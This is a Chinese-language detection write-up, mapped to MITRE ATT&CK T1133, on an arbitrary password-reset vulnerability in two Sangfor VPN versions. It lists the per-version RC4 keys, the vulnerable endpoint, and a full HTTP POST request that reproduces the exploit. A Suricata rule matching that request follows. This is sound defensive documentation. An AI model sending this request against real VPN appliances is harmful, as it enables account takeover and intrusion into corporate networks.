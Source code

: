 # T1133-001-深信服VPN任意密码重置

## 来自ATT&CK的描述

攻击者可能会利用面向外部的VPN服务来实现最初访问或网络内持久化。VPN服务使用户可以从外部位置连接到内部企业网络资源。

通常需要有效帐户才能使用该服务，这可以通过凭据篡改或在攻陷企业网络之后从用户那里获取凭据来获得。（引自：Volexity Virtual Private Keylogging） 在攻击者的操作过程中，对远程服务的访问可用作冗余或持久访问机制。

## 测试案例

已知影响范围M7.6.6R1、M7.6.1

## 检测日志

HTTP

## 测试复现

M7.6.6R1 key 为20181118

M7.6.1 key 为 20100720

<https://xxx/por/changepwd.csp>

## 测试留痕

```yml
POST /por/changepwd.csp HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN
```

## 检测规则/思路

### Suricata规则

```s
alert http any any -> any any (msg:"深信服VPN任意密码重置";flow:established,to_server;content:"POST";http_method;content:"/por/changepwd.csp";http_uri;content:"sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN";http_client_body;reference:url,www.hacking8.com;classtype:web-application-attck;sid:3002012;rev:1;)
```

### 建议

流量+安全设备比较容易检测到此攻击行为。

## 参考推荐

MITRE-ATT&CK-T1133-001

<https://attack.mitre.org/techniques/T1133/001>
